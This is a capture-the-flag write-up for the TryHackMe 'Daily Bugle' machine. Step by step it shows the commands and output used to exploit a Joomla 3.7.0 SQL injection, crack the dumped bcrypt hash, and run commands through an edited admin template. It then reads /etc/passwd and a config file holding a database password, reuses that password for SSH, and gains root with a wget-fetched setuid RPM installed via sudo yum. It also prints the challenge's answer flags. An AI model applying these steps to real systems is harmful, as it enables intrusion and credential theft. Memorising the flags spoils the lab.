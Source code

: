 ```yaml
---
title: "Daily Bugle"
date: 2020-02-06T15:33:06+01:00
draft: false
tags: ["ctf", "tryhackme", "joomla", "sqli", "yum", "priviledge escalation"]
---
```


Hi guys, today we look at CTF called Daily Bugle and we try to gain root priviledges. :) 
Let's play.

__NOTICE: (SPOILER!!) If you would like to solve it by yourself, don't read this post!__

#### [Task 1]
First question is pretty simple. Open the article and you can find the answer

__Access the web server, who robbed the bank?__
- spiderman

#### [Task 2]
```bash
$ curl http://10.10.86.172/media/system/js/mootools-more.js 2>/dev/null | grep MooTools.More
MooTools.More={version:"1.4.0.1",build:"a4244edf2aa97ac8a196fc96082dd35af1abab87"};(function(){Events.Pseudos=function(h,e,f){var d="_monitorEvents:";var c=function(i){return{store:i.store?function(j,k){i.store(d+j,k);
```
```bash
$ curl http://10.10.86.172/language/en-GB/en-GB.xml
<?xml version="1.0" encoding="utf-8"?>
<metafile version="3.7" client="site">
        <name>English (en-GB)</name>
        <version>3.7.0</version>
        <creationDate>April 2017</creationDate>
        <author>Joomla! Project</author>
        <authorEmail>admin@joomla.org</authorEmail>
        <authorUrl>www.joomla.org</authorUrl>
        <copyright>Copyright (C) 2005 - 2017 Open Source Matters. All rights reserved.</copyright>
        <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
        <description><![CDATA[en-GB site language]]></description>
        <metadata>
                <name>English (en-GB)</name>
                <nativeName>English (United Kingdom)</nativeName>
                <tag>en-GB</tag>
                <rtl>0</rtl>
                <locale>en_GB.utf8, en_GB.UTF-8, en_GB, eng_GB, en, english, english-uk, uk, gbr, britain, england, great britain, uk, united kingdom, united-kingdom</locale>
                <firstDay>0</firstDay>
                <weekEnd>0,6</weekEnd>
                <calendar>gregorian</calendar>
        </metadata>
        <params />
</metafile>
```

We found it.

__What is the Joomla version?__
- 3.7.0

After some research of finding following exploits for SQL Injection in Joomla
- [sqlmap](https://www.exploit-db.com/exploits/42033)
- [metasploit](https://www.rapid7.com/db/modules/exploit/unix/webapp/joomla_comfields_sqli_rce)

I found the best way to solve this task and exploit the Joomla 3.7.0 SQLi vulnerability
- [python exploit](https://github.com/XiphosResearch/exploits)

```bash
$ git clone git@github.com:XiphosResearch/exploits.git
$ cd exploits/Joomblah
```

and finally run the exploit.
```bash
$ python2 joomblah.py http://10.10.86.172
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Now we need to crack the hashed password, so we save [bcrypt hash](https://www.php.net/manual/en/function.password-hash.php) to file hashes.txt
and run.
```batchfile
c:\john-1.9.0-jumbo-1-win64\run>john.exe --wordlist=C:\Users\burso\Downloads\rockyou.txt --rules=wordlist --min-len=12 --max-len=12 ../hashes.txt
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
1g 0:00:00:02 DONE (2020-02-07 10:54) 0.3846g/s 110.7p/s 110.7c/s 110.7C/s ilovepatrick..quetzalcoatl
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
__What is Jonah's cracked password?__
- spiderman123

After logged in to the __/administrator__ page with login __jonah__ and password __spiderman123__ we need to gain access to ssh.
go to page __/administrator/index.php?option=com_templates&view=template&id=506&file=L2luZGV4LnBocA__. We can edit __index.php__
of template so we can run any command on server and execute them via __Template Preview__. Before run you don't forget to save file. 
```php
system("id");
uid=48(apache) gid=48(apache) groups=48(apache) 
```

Now we now any command executed via Joomla Template will run under __apache__ user.
```php
system("cat /etc/passwd");
root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/spool/mail:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin games:x:12:100:games:/usr/games:/sbin/nologin ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin nobody:x:99:99:Nobody:/:/sbin/nologin systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin dbus:x:81:81:System message bus:/:/sbin/nologin polkitd:x:999:998:User for polkitd:/:/sbin/nologin sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin postfix:x:89:89::/var/spool/postfix:/sbin/nologin chrony:x:998:996::/var/lib/chrony:/sbin/nologin jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin 
```
We can see user jonah has __jjameson__ username in ssh login, so we need password now.

```php
system("cat configuration.php");
Please check back again soon.'; public $display_offline_message = '1'; public $offline_image = ''; public $sitename = 'The Daily Bugle'; public $editor = 'tinymce'; public $captcha = '0'; public $list_limit = '20'; public $access = '1'; public $debug = '0'; public $debug_lang = '0'; public $dbtype = 'mysqli'; public $host = 'localhost'; public $user = 'root'; public $password = 'nv5uz9r3ZEDzVjNu'; public $db = 'joomla'; public $dbprefix = 'fb9j5_'; public $live_site = ''; public $secret = 'UAMBRWzHO3oFPmVC'; public $gzip = '0'; public $error_reporting = 'default'; public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}'; public $ftp_host = '127.0.0.1'; public $ftp_port = '21'; public $ftp_user = ''; public $ftp_pass = ''; public $ftp_root = ''; public $ftp_enable = '0'; public $offset = 'UTC'; public $mailonline = '1'; public $mailer = 'mail'; public $mailfrom = 'jonah@tryhackme.com'; public $fromname = 'The Daily Bugle'; public $sendmail = '/usr/sbin/sendmail'; public $smtpauth = '0'; public $smtpuser = ''; public $smtppass = ''; public $smtphost = 'localhost'; public $smtpsecure = 'none'; public $smtpport = '25'; public $caching = '0'; public $cache_handler = 'file'; public $cachetime = '15'; public $cache_platformprefix = '0'; public $MetaDesc = 'New York City tabloid newspaper'; public $MetaKeys = ''; public $MetaTitle = '1'; public $MetaAuthor = '1'; public $MetaVersion = '0'; public $robots = ''; public $sef = '1'; public $sef_rewrite = '0'; public $sef_suffix = '0'; public $unicodeslugs = '0'; public $feed_limit = '10'; public $feed_email = 'none'; public $log_path = '/var/www/html/administrator/logs'; public $tmp_path = '/var/www/html/tmp'; public $lifetime = '15'; public $session_handler = 'database'; public $shared_session = '0'; } 
```
Interesting. We can try the password to database if it is not the same to __jjameson__ ssh login.
- __username__: jjamesson
- __password__: nv5uz9r3ZEDzVjNu

```bash
$ ssh jjameson@10.10.86.172
jjameson@10.10.162.2's password: 
Last failed login: Fri Feb  7 10:07:52 EST 2020 from ip-10-8-11-158.eu-west-1.compute.internal on ssh:notty
There were 724 failed login attempts since the last successful login.
Last login: Mon Dec 16 05:14:55 2019 from netwars
```

Yes, everything works! 
```bash
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ cat user.txt 
27a260fe3cba712cfdedb1c86d80442e
```

__What is the user flag?__
- 27a260fe3cba712cfdedb1c86d80442e

The last step is gain root access on this machine. So let's do it!

```bash
[jjameson@dailybugle ~]$ sudo -l                                                                                                                                                                                    
Matching Defaults entries for jjameson on dailybugle:                                                                                                                                                               
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS     
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET       
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin                                                                                                                                                       
                                                                                                                                                                                                                    
User jjameson may run the following commands on dailybugle:                                                                                                                                                         
    (ALL) NOPASSWD: /usr/bin/yum
```
__Yum__ is the only one command you can run under __root__ and that's security missconfiguration. 
More about the vulnerability you can find [here](https://lsdsecurity.com/2019/01/more-linux-privilege-escalation-yum-rpm-dnf-nopasswd-rpm-payloads/).
You can download the exploit [here](https://gist.githubusercontent.com/neoice/797777cb0832f596a70b6cba7bbbcc4f/raw/f3f94e105c23d2c01706736d9cd729dd555e9c53/setuid-pop.rpm)

So let's download the exploit and copy to vulnerable server
```bash
$ wget https://gist.githubusercontent.com/neoice/797777cb0832f596a70b6cba7bbbcc4f/raw/f3f94e105c23d2c01706736d9cd729dd555e9c53/setuid-pop.rpm
$ scp setuid-pop.rpm jjameson@10.10.86.172:~
```

Now extract the exploit and install it via __yum__
```bash
[jjameson@dailybugle ~]$ cat setuid-pop.rpm | base64 -d | gzip -d > yumsploit.rpm
[jjameson@dailybugle ~]$ sudo yum localinstall ~/yumsploit.rpm 
Loaded plugins: fastestmirror
Examining /home/jjameson/yumsploit.rpm: sploit-1.0-1.x86_64
Marking /home/jjameson/yumsploit.rpm to be installed
Resolving Dependencies
--> Running transaction check
---> Package sploit.x86_64 0:1.0-1 will be installed
--> Finished Dependency Resolution

Dependencies Resolved
...
Downloading packages:
Running transaction check
Running transaction test
Transaction test succeeded
Running transaction
  Installing : sploit-1.0-1.x86_64                                                                                                                                                                              1/1 
  Verifying  : sploit-1.0-1.x86_64                                                                                                                                                                              1/1 

Installed:
  sploit.x86_64 0:1.0-1                              

Complete!
```

We have installed __pop__ binary in __/usr/local/bin__ directory with __setuid bit__.
That means __pop__ binary will be runned with __root__ priviledges. 
```bash
meson@dailybugle ~]$ ls -la /usr/local/bin
total 12
drwxr-xr-x.  2 root root   17 Feb  7 10:43 .
drwxr-xr-x. 12 root root  131 Dec 14 13:57 ..
-rwsr-sr-x   1 root root 8744 Jan 18  2019 pop
```

Let's execute it.
```bash
[jjameson@dailybugle ~]$ pop
[root@dailybugle ~]# id
uid=0(root) gid=0(root) groups=0(root),1000(jjameson) 
[root@dailybugle ~]# cat /root/root.txt
eec3d53292b1821868266858d7fa6f79
```

Done! We have now __root__ priviledges.

__What is the root flag?__
- eec3d53292b1821868266858d7fa6f79

